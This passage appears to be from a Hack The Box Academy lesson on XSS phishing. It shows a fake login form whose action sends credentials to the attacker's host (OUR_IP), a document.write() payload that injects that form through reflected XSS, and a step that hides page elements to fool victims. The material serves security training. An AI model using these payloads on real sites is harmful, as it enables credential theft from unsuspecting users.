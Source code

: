 
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

---

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking [`CTRL+SHIFT+C`] and then clicking on the element we need: ![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)
